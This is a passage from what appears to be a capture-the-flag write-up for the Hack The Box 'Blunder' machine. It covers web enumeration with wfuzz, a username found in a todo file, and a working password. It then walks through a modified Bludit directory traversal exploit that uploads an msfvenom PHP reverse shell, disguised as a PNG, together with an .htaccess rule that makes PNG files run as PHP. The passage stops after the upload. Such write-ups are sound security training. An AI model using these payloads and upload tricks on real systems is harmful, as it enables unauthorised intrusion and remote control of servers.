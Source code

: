 ```
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
root@kali:/home/kali/htb/blunder# 
```

And I find the Authentication Bruteforce bypass. Also note the directory traversal as well.

I try running this with the cewl wordlist on both username and admin. But I get nothing. I decide to enumerate the web-server further with wfuzz, and I find a todo.txt file:

```
root@kali:/home/kali/htb/blunder# wfuzz -c -L --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://blunder.htb/FUZZ.txt
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://blunder.htb/FUZZ.txt
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                     
=====================================================================                        
000001765:   200        1 L      4 W        22 Ch       "robots"                                    
000002495:   200        4 L      23 W       118 Ch      "todo" 
```

Which states:

```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

So fergus is a possible username here. I try fergus:RolandDeschain, and it works.


I download the directory traversal exploit and modify it with the creds and url I have.

I then create the payload, according to the exploit and run it:

```
root@kali:/home/kali/htb/blunder# msfvenom -p php/reverse_php LHOST=10.10.14.51 LPORT=1337 -f raw -b '"' > evil.png
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 2 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 4084 (iteration=0)
php/base64 chosen with final size 4084
Payload size: 4084 bytes

root@kali:/home/kali/htb/blunder# echo -e "<?php $(cat evil.png)" > evil.png 
root@kali:/home/kali/htb/blunder# echo "RewriteEngine off" > .htaccess
root@kali:/home/kali/htb/blunder# echo "AddType application/x-httpd-php .png" >> .htaccess
root@kali:/home/kali/htb/blunder# python3 exploit.py
cookie: p3od5smt3saei86uol9rdogmn0
csrf_token: c07e624086f7fae160dc433211bedfb984829a3e
Uploading payload: evil.png
Uploading payload: .htaccess
root@kali:/home/kali/htb/blunder#
```
